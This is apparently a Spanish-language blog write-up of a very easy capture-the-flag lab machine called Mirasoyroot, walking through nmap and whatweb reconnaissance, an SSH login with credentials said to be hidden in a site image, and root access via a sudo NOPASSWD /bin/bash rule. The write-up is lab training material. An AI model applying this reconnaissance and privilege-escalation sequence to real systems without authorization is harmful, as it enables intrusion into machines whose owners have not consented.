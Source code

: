 ```yaml
---
layout: post
title: Mirasoyroot
subtitle: Plataforma MiraSoyRoot Dificultad Muy Fácil
cover-img: /assets/img/mirasoyroot.png
thumbnail-img: /assets/img/mirasoyroot.png
share-img: /assets/img/mirasoyroot.png
author: Elmili72
---
```


<img width="227" height="222" alt="image" src="https://github.com/user-attachments/assets/ce9c451f-14bf-4521-8d9b-f0c115414357" />

## Escaneo general de puertos

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 17:41:06 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

```bash
❯ nmap -sCV -p22,80 172.17.0.2 -oN target
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:fe:8d:4e:47:c9:95:40:bb:10:89:be:b8:a1:ef:03 (ECDSA)
|_  256 80:1c:dd:6a:c7:b5:8f:93:70:a7:32:83:e3:1e:7e:4c (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: TIME LUXURY WATCHES
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento de Servicio Web

```bash
❯ whatweb http://172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[TIME LUXURY WATCHES]
```

<img width="1780" height="658" alt="Pasted image 20250623174409" src="https://github.com/user-attachments/assets/6482564f-151b-4c4e-a716-30203186e040" />

<img width="506" height="68" alt="Pasted image 20250623174419" src="https://github.com/user-attachments/assets/07ed0c4e-ff7e-4da0-834c-b3566ac34ed7" />

Aquí cualquiera puede pensar, pues bueno intentamos enumerar directorios con LFI para intentar exfiltrar el archivo */etc/passwd*. Pues nuestro amigo y venico Yerman nos tiene una sorpresa jejejej.

<img width="475" height="421" alt="Pasted image 20250623175407" src="https://github.com/user-attachments/assets/0b2495c6-ac5f-4e6e-a63a-f976bfa46ce0" />

No diré en que imagen se encuentras las credenciales jijiji.

## Explotación

### Intrusión

```bash
❯ ssh pablo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:KN2v7mhMbB2KMFDXfIyBZ3RSeXTGDTEQXnLuzqc2OhU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
pablo@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.12.25-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 20 12:13:26 2025 from 172.17.0.1
pablo@5f93963c4c51:~$ whoami
pablo
pablo@5f93963c4c51:~$ id
uid=1001(pablo) gid=1001(pablo) groups=1001(pablo)
```

## Post-Explotación

### Escalada de Privilegios

```bash
pablo@5f93963c4c51:~$ sudo -l
Matching Defaults entries for pablo on 5f93963c4c51:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pablo may run the following commands on 5f93963c4c51:
    (ALL) NOPASSWD: /bin/bash
```

```bash
pablo@5f93963c4c51:~$ sudo /bin/bash -p
root@5f93963c4c51:/home/pablo# whoami
root
root@5f93963c4c51:/home/pablo# id
uid=0(root) gid=0(root) groups=0(root)
root@5f93963c4c51:/home/pablo# cd /root
root@5f93963c4c51:~# cat mirasoyroot.txt 
Felicidades!!! Lo has conseguido.
Si eres de los tres pirmeros en 
completar la maquina enviame una 
captura de esto y te pondre en el
podio de la web.
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
